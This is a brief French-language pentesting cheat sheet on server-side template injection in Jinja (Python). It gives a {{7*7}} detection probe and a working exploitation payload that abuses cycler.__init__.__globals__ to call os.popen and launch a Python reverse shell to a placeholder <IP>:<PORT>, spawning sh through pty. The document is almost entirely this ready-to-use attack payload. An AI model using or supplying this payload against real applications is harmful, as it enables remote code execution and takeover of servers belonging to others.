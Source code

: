 # SSTI

### Jinja (python)

* Tester si la vulnérabilité est présente :

```
{{7*7}}
```

* Exploiter la vulnérabilité (_reverse-shell_):

```python
{{ cycler.__init__.__globals__.os.popen('python3 -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);import pty; pty.spawn("sh")\'').read()}}
```

**Tips :** essayer `python` et `python3`.
